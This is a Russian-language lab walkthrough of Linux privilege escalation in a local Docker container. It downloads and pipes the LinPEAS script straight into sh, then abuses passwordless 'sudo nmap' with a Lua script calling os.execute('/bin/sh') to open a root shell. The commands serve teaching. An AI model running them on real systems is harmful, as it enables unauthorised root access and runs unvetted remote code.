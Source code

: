 ```bash
~ ❯ cd docker  
~/docker ❯ cd lpe-prod 
~/docker/lpe-prod ❯ ls                                       
docker-compose.yaml  Dockerfile-machine  script.sh
~/docker/lpe-prod ❯ docker compose up -d
WARN[0000] /home/nl/docker/lpe-prod/docker-compose.yaml: `version` is obsolete 
[+] Running 1/0
 ✔ Container lpe-prod-machine-1  Running                                       0.0s 
~/docker/lpe-prod ❯ 
```

![[Pasted image 20240609200859.png]]
2. Проверим права текущего пользователя:

`$ id`

3. Отмечаем, что текущий пользователь входит в группу sudo и, следовательно, может выполнять различные команды с повышенными привилегиями. Получаем список таких команд:

`$ sudo -l`

4. Видим, что мы можем запускать утилиту nmap, не вводя пароль; проверим, что права действительно повышаются, использовав опцию сканирования -sS, доступную только для root:

`$ sudo nmap -sS localhost`

5. Для более полного поиска векторов для повышения прав воспользуемся утилитой LinPEAS:

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Скачаем и выполним этот скрипт, проанализируем его вывод:

`$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`

6.  Для поиска способов выполнить произвольного кода с помощью утилиты с повышенными привилегиями обратимся к ресурсу [https://gtfobins.github.io/](https://gtfobins.github.io/) и найдем там nmap. Чтобы получить интерактивный шелл с правами root, воспользуемся командами с ресурса gtfobins и заставим nmap выполнить Lua-скрипт, открывающий командную оболочку:

> _Создадим временный файл с кодом скрипта и сохраним его имя в переменную TF:_
> 
> `$ TF=$(mktemp)`
> 
> Добавим код, открывающий оболочку sh:
> 
> `$ echo 'os.execute("/bin/sh")' > $TF`

6. Запустим скрипт от имени root с помощью sudo и nmap:

`$ sudo nmap --script=$TF`

7. Проверяем полученные права:

`$ id`


